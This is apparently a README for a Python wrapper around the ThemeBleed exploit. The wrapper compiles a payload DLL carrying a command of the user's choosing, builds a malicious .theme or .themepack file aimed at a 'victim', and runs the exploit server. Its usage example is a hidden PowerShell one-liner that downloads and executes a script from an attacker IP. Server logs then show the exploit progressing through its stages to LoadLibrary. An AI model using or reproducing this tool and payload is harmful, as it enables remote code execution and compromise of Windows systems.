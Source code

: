 # ThemeBleed

Created a laaazzyy python wrapper to simplify the process of generating a DLL for the exploit. This tool eliminates the need for a Windows machine with Visual Studio to compile the DLL. The exploit code its preserved and all the credits goes to the original author.

The source code for the DLL is located in the `stage3.cpp` file. The wrapper streamlines the process by replacing the `[command]` placeholder with whatever you want to run in the sytem, compiling the code, relocating the compiled DLL to the data folder of the exploit, and using `ThemeBleed.exe` to create either a .theme file (via generate_theme) or a .themepack file (via generate_themepack).

For testing the generated stage3 DLL, you can refer to the instructions provided at https://blog.didierstevens.com/2017/09/08/quickpost-dlldemo/.

The `run_server` option will just call `wine ThemeBleed.exe server`.

Please be aware that this wrapper relies on the presence of the `wine` and `x86_64-w64-mingw32-gcc` tools to function effectively. 

It has been tested only on a Kali Linux box.

Usage of the python wrapper:
```
Usage: python themebleed.py <command> [<host> <output_path> <command_to_run>]

Commands:
generate_theme		 - Generate a theme file and DLL with a command to run in the victim
generate_themepack	 - Generate a themepack file and DLL with a command to run in the victim
run_server		 - Run the ThemeBleed server
```

Example of a ps1 script download and run:
```
$ python3 themebleed.py generate_theme 10.10.14.77 xpl.theme "powershell -W Hidden -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.77/caos.ps1'); Invoke-Expression caos.ps1\""
stage3 compiled and moved to data folder.
Theme file: xpl.theme created

$ python3 themebleed.py run_server
Server started
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 1 - Version check
Client requested stage 2 - Verify signature
Client requested stage 2 - Verify signature
Client requested stage 2 - Verify signature
Client requested stage 2 - Verify signature
Client requested stage 2 - Verify signature
Client requested stage 2 - Verify signature
Client requested stage 3 - LoadLibrary
```
